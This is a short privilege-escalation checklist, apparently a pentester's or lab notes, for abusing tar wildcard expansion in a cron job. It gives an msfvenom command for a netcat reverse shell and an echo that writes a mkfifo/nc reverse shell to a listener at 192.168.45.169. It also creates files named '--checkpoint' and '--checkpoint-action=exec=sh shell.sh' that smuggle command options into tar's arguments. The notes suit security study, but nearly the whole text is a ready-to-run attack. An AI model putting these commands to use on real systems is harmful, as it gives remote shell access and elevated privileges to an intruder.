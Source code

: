 Examples:
```
sudo tar -cf example.tar *
tar cf archive.tar *
tar -zxf /tmp/backup.tar.gz *
```

- [ ] Generate nc reverse shell payload using msfvenom on your Kali Machine
```
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.45.169 lport=8888 R
```

 - [ ] Navigate to the directory that the cronjob will run tar with a wildcard and create the 3 exploit files on the Target Machine
```
echo "mkfifo /tmp/fgbepo; nc 192.168.45.169 8888 0</tmp/fgbepo | /bin/sh >/tmp/fgbepo 2>&1; rm /tmp/fgbepo" > shell.sh
echo "" > --checkpoint=1 
echo "" > "--checkpoint-action=exec=sh shell.sh" 
```
- Running `tar cf archive.tar *` now will be giving a reverse shell as the current user

References
https://www.exploit-db.com/papers/33930
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c
